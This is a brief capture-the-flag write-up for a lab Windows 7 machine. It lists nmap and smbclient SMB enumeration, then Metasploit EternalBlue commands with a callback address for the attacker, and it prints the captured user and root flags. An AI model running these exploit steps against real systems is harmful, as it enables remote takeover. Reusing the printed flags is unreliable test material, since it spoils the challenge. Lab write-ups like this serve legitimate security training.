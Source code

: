 ```yaml
---
tags:
- eternal-blue
- smb
- windows7
created: 2024-04-01
lastmod: 2024-04-01
published: 2024-04-01
image:
description: 
---
```

#### Nmap

```bash
sudo nmap -A -p- 10.10.10.40 
```

![Pasted image 20240401113929](Pasted%20image%2020240401113929.png)
![Pasted image 20240401114006](Pasted%20image%2020240401114006.png)
#### Port 445 (SMB)

```bash
smbclient --no-pass -L //10.10.10.40
```

![Pasted image 20240401121720](Pasted%20image%2020240401121720.png)

```bash
sudo nmap --script smb-* -p 445 10.10.10.40
```

![Pasted image 20240401123227](Pasted%20image%2020240401123227.png)

```bash
sudo nmap --script smb-protocols -p 445 10.10.10.40
```

![Pasted image 20240401123924](Pasted%20image%2020240401123924.png)

>[!success] Victim appears vulnerable to the EternalBlue exploit.
### Local Exploit
#### Metasploit

```bash
msfconsole -q
search eternal
use 1
```

![Pasted image 20240401125829](Pasted%20image%2020240401125829.png)

```bash
options
set RHOSTS 10.10.10.40
set LHOST 10.10.14.12
run
```

![Pasted image 20240401125854](Pasted%20image%2020240401125854.png)

>[!success] user.txt
>`dc32b7bfefa8ae6f1d1fc594c9133e80`
>
![Pasted image 20240401130008](Pasted%20image%2020240401130008.png)

>[!success] root.txt
>We were `nt authority\system` so could also access the Administrator's desktop.
>`aac84c29ac1b9a3b466c54e780ca8b93`
>
>![Pasted image 20240403043445](Pasted%20image%2020240403043445.png)
#### Manual

https://github.com/worawit/MS17-010